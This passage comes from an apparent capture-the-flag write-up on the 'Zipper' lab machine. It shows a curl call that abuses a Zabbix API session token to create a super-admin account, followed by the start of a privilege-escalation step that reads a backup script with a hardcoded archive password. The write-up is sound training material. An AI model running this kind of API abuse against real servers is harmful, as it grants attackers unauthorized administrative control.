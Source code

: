 
#### Create New Admin User

If all of that seems like too much work, I can just create my own user with
the
[user.create](https://www.zabbix.com/documentation/3.0/manual/api/reference/user/create)
API. I’ll follow the example in the API docs, giving a passwd, alias, type 3 =
super admin, and adding to the admins group 7:

    
    
    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"user.create", "id":1, "auth":"5e0e2dc84136edbf2a03e1d8c04e95e6", "params":{"passwd": "fdx0", "usrgrps": [{"usrgrpid": "7"}], "alias": "0xdf", "type": "3"}}' | jq -c '.'
    {"jsonrpc":"2.0","result":{"userids":["4"]},"id":1}
    

Now I can log in and have access to admin functions, and can get a shell as
shown above:

![1550627004939](https://0xdfimages.gitlab.io/img/1550627004939.png)

#### Conclusion

There’s probably several more ways to use the API to enable GUI access.
Another options that occurred to me you could change the password on the admin
account. But I’ll leave that as an exercise for the reader.

## Privesc: zabbix –> zapper

With a shall as zabbix on Zipper, I can get into the zapper homedir and see
user.txt, but I can’t access it yet:

    
    
    zabbix@zipper:/home/zapper$ ls
    user.txt  utils
    zabbix@zipper:/home/zapper$ cat user.txt 
    cat: user.txt: Permission denied
    

Inside the utils folders, there’s a backup script:

    
    
    zabbix@zipper:/home/zapper/utils$ cat backup.sh
    #!/bin/bash
    #
    # Quick script to backup all utilities in this folder to /backups
    #
    /usr/bin/7z a /backups/zapper_backup-$(/bin/date +%F).7z -pZippityDoDah /home/zapper/utils/* &>/dev/null
    echo $?
    